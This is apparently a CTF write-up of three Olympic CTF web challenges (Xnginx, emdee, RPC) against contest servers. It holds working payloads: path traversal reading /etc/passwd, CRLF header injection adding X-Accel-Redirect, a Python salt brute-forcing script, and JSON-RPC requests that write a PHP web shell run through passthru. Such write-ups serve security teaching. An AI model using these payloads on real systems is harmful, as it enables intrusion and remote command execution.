




I had the honour to participate with int3pids in the #Olympic CTF and these are the write ups of the Web tasks we solved.
CURLing 200: Xnginx
In this level we were presented with a simple web site where we could check some news

First thing to notice is that the news URL is vulnerable to path transversal:
http://109.233.61.11:27280/news/?f=31-12-2013
http://109.233.61.11:27280/news/?f=../../../../../etc/passwd
Since the name of the task was xnginx I looked for the nginx configuration file:
http://109.233.61.11:27280/news/?f=../../../etc/nginx/nginx.conf
That returned the configuration file:

Looking at the configuration file we can see where the site configuration is stored so we issued another request to fetch the site config:
http://109.233.61.11:27280/news/?f=../../../etc/nginx/sites-enabled/default
Config file:
# You may add here your
# server {
# ...
# }
# statements for each of your virtual hosts to this file
##
# You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# http://wiki.nginx.org/Pitfalls
# http://wiki.nginx.org/QuickStart
# http://wiki.nginx.org/Configuration
#
# Generally, you will want to move this file somewhere, and start with a clean
# file but keep this around for reference. Or just disable in sites-enabled.
#
# Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
##
server {
#listen 80; ## listen for ipv4; this line is default and implied
#listen [::]:80 default ipv6only=on; ## listen for ipv6
root /usr/share/nginx/www;
index index.html index.htm;
# Make site accessible from http://localhost/
server_name localhost;
location / {
limit_req zone=one burst=5 nodelay;
proxy_pass http://127.0.0.1:5001;
}
location = /secret/flag {
root /home;
internal;
}
}
# another virtual host using mix of IP-, name-, and port-based configuration
#
#server {
# listen 8000;
# listen somename:8080;
# server_name somename alias another.alias;
# root html;
# index index.html index.htm;
#
# location / {
# try_files $uri $uri/ /index.html;
# }
#}
# HTTPS server
#
#server {
# listen 443;
# server_name localhost;
#
# root html;
# index index.html index.htm;
#
# ssl on;
# ssl_certificate cert.pem;
# ssl_certificate_key cert.key;
#
# ssl_session_timeout 5m;
#
# ssl_protocols SSLv3 TLSv1;
# ssl_ciphers ALL:!ADH:!EXPORT56:RC4+RSA:+HIGH:+MEDIUM:+LOW:+SSLv3:+EXP;
# ssl_prefer_server_ciphers on;
#
# location / {
# try_files $uri $uri/ /index.html;
# }
#}
The interesting bits are highlighed:
location = /secret/flag {
root /home;
internal;
}
Look like the flag is located at http://109.233.61.11:27280/secret/flag but only internal requests will get through. This looks like a SSRF task but in the end it was something completly different.
At the same time we found that the return link was vulnerable to Header Manipulation:
http://109.233.61.11:27280/?retpath=/news
The above URL generates a redirect to news
HTTP/1.1 307 TEMPORARY REDIRECT
Server: nginx/1.1.19
Date: Sun, 09 Feb 2014 17:07:47 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: keep-alive
Location: /news
And
http://109.233.61.11:27280/?repath=/secret/flag%0d%0aHost:%20127.0.0.1
generated:
HTTP/1.1 307 TEMPORARY REDIRECT
Server: nginx/1.1.19
Date: Sun, 09 Feb 2014 17:10:22 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: keep-alive
Location: /secret/flag
Host: 127.0.0.1
However that was not enough to trick nginx.
After researchig about Nginx we found out that it has a similar feature as Apache mod_xsendfile called X-Accel module that provides internal redirects. So basically nginx will intercept the responses and if it contains the X-Accel-redirect header, it will request the resource specified in the header and return the response back to the user. With that we were able to use the header manipulation vulnerability to craft the following request:
http://109.233.61.11:27280/?retpath=/%0D%0AX-Accel-Redirect%3A%20/secret/flag
response was :
HTTP/1.1 200 OK
Server: nginx/1.1.19
Date: Sun, 09 Feb 2014 17:15:32 GMT
Content-Type: text/html; charset=utf-8
Last-Modified: Thu, 06 Feb 2014 13:55:07 GMT
Connection: keep-alive
Content-Length: 38
CTF{6e75d02b8e8329bb4b45c7dabd2e1da2}
CURLing 300: emdee
This level got us crazy for a long time, in the end it was an easy task to solve. We were presented with a revolutionary md5 hashing system :)

Submitting a new secret got us the hash and the timestamp used for the hashing:

After playing with other approaches, including sending long secrets so that the timestamp was cut off, we found out that we could hash non printable characters and some of them were really interesting, specially the "del" one or \x7F
We can send del commands to delete previous introduced characters so hash(aa\xF7) == hash(a) for the same timestamp. We can used that to remove all the Salt characters except for the first one and then use the returned timestamp and hash to brute force the first character in the salt. And then repeat to extract the full salt.
To find out the length of the salt we can use the following script:
for j in xrange(1,64):
secret = '\x7F' * j
res = requests.post(URL, data={'secret':secret})
ts, h = parse(res.content)
if hashlib.md5(ts).hexdigest() == h:
SALTLEN = j
break
We basically send n delete characters and check if the returned hash is the result of hashing the returned timestamp. This gives us a lenght of 40 chracters. Now we can brute force the salt with the following script:
import requests
import re
import hashlib
def parse(content):
m = re.search(r'your_secret \+ ([0-9.]+).*<em>([0-9a-f]+)', content)
if not m:
raise
return m.group(1), m.group(2)
def bruteforce(prefix, h, ts):
for c in map(chr, range(32,126)):
if hashlib.md5(prefix+c+ts).hexdigest() == h:
return c
return None
URL = 'http://109.233.61.11:34380/'
SALTLEN = 0
salt = ''
for j in xrange(1,64):
secret = '\x7F' * j
res = requests.post(URL, data={'secret':secret})
ts, h = parse(res.content)
if hashlib.md5(ts).hexdigest() == h:
SALTLEN = j
break
for i in range(SALTLEN):
secret = '\x7F' * (39-i)
if i == 39:
secret = 'a'
res = requests.post(URL, data={'secret':secret})
ts, h = parse(res.content)
if i == 39:
ts = secret+ts
c = bruteforce(salt, h, ts)
salt += c
print salt
Running the script returns us the salf: klgWCV7YgP0ugoiIXE9u0kSXpcnv3Z6eKmkIohJJ
Now we are said that the secret was a "short dictionary word" so we can run a dictionary attack to find the word that produces the hash so that md5(salt+word) = 40288d60073775070a7edcdcd1df9c56 which turns out to be "cow"
Flag was salt+word: klgWCV7YgP0ugoiIXE9u0kSXpcnv3Z6eKmkIohJJcow
CURLing 400: RPC
In this level we were presented with a "broken" link" saying:
Notice: Undefined index: rpc_json_call in /var/www/index.php on line 27
So we crafted a POST request with the following JSON RPC parameter:
rpc_json_call={ "jsonrpc": "2.0","method": "function", "params": ["123"] }
And we got a "invalid method. Try test." as result.
Nice, so we tried "test" as indicated and got a "42" as a result. We tried a bunch of methods with no luck until we tried with PHP magic method names and we got different responses for "construct" and "wakeup" all the remaining ones were returning the invalid method response.
"__wakeup" was not taking arguments and just returned a 200 OK
"__construct" was complaining about wrong arguments:
invalid method params! Valid is:
log_dir
debug
state
Ok, so we sent a request like
rpc_json_call={ "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.log", "debug":true, "state":"test"} }
We were expecting that we could write in /var/www/kk.log but nothing appeared there.
Fortunately we realized that we could send several commands so we tried:
rpc_json_call=[
{ "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.log", "debug":true, "state":"test"} },
{ "jsonrpc": "2.0","method": "__wakeup", "params": {} }
]
And voila, we got a beautiful "...loged" response so we checked the "kk.log" file and it was there:
1391967947 O:3:"rpc":1:{s:5:"state";s:4:"test";}
It seems like a serialized string but more interetingly, our test string was there, so next step is try to inject a web shell:
rpc_json_call=[
{ "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.php", "debug":true, "state":"<? echo file_get_contents('index.php');?>"} },
{ "jsonrpc": "2.0","method": "__wakeup", "params": {} }
]
And there we go a beautiful shell. All we have to do is:
rpc_json_call=[
{ "jsonrpc": "2.0","method": "__construct", "params": {"log_dir":"/var/www/kk.php", "debug":true, "state":"<? passthru($_GET['cmd']);?>"} },
{ "jsonrpc": "2.0","method": "__wakeup", "params": {} }
]
And then:
http://109.233.61.11:8880/kk.php?cmd=cat%20/FLAG
And flag:
1391968178 O:3:"rpc":1:{s:5:"state";s:28:"CTF{b15ffee30a117f418d1cede6faa57778} ";}